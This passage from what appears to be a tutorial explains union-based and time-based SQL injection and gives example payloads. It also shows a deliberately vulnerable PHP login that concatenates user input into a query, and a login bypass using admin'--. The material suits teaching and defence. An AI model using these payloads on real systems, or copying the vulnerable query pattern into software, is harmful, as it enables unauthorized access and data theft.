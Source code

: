 
#### **3. Union-Based SQL Injection**
- **Description**:
  - Combines multiple SQL queries using the `UNION` operator to fetch additional data.
- **Example**:
  ```sql
  SELECT username, password FROM users WHERE id = 1 UNION SELECT table_name, column_name FROM information_schema.tables;
  ```

---

#### **4. Time-Based SQL Injection**
- **Description**:
  - Exploits SQL functions that cause delays to infer information about the database.
- **Example**:
  ```sql
  SELECT IF(1=1, SLEEP(5), 'false');
  ```

---

### **Real-World SQL Injection Example**

#### **Vulnerable PHP Code**
```php
<?php
$username = $_GET['username'];
$password = $_GET['password'];

$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = mysqli_query($conn, $query);
?>
```

---

#### **Exploitation**
- Normal input:
  ```
  username=admin&password=12345
  ```
  Query generated:
  ```sql
  SELECT * FROM users WHERE username = 'admin' AND password = '12345';
  ```

- Malicious input:
  ```
  username=admin'--&password=
  ```
  Query generated:
  ```sql
  SELECT * FROM users WHERE username = 'admin'-- AND password = '';
  ```
  Here, the `--` comment symbol causes the `password` condition to be ignored, logging in the attacker as the user "admin."

---